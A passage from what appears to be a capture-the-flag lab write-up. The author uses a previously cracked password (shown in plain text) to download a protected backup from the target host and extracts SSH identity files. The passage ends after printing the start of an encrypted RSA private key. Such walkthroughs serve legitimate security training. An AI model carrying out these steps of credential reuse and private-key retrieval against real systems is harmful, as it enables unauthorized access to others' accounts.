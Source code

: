 

I could also grab the file over the webserver. If I `curl` the url, I
get 401 unauthorized:



    root@kali# curl 10.10.10.165/~david/protected-file-area/
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
    .md>
    <head>
    <title>401 Unauthorized</title>
    <meta http-equiv="content-type" content="text.md; charset=iso-8859-1">
    </head>
    <body>

    <h1>401 Unauthorized</h1>

    <hr>
    <address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
    </body>
    <.md>



I can add the username/password I cracked earlier, I can grab the file:



    root@kali# wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
    --2019-11-22 14:30:35--  http://david:*password*@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
    Connecting to 10.10.10.165:80... connected.
    HTTP request sent, awaiting response... 401 Unauthorized
    Authentication selected: Basic realm="David's Protected File Area. Keep out!"
    Reusing existing connection to 10.10.10.165:80.
    HTTP request sent, awaiting response... 200 OK
    Length: 1915 (1.9K) [application/x-tar]
    Saving to: ‘backup-ssh-identity-files.tgz’

    backup-ssh-identity-files.tgz         100%[======================================================================>]   1.87K  --.-KB/s    in 0s      

    2019-11-22 14:30:35 (47.4 MB/s) - ‘backup-ssh-identity-files.tgz’ saved [1915/1915]



I can decompress that with `tar`, and I get a backup of the home
directories with a private key:



    root@kali# tar -zxvf backup-ssh-identity-files.tgz 
    home/david/.ssh/
    home/david/.ssh/authorized_keys
    home/david/.ssh/id_rsa
    home/david/.ssh/id_rsa.pub
    root@kali# head home/david/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F
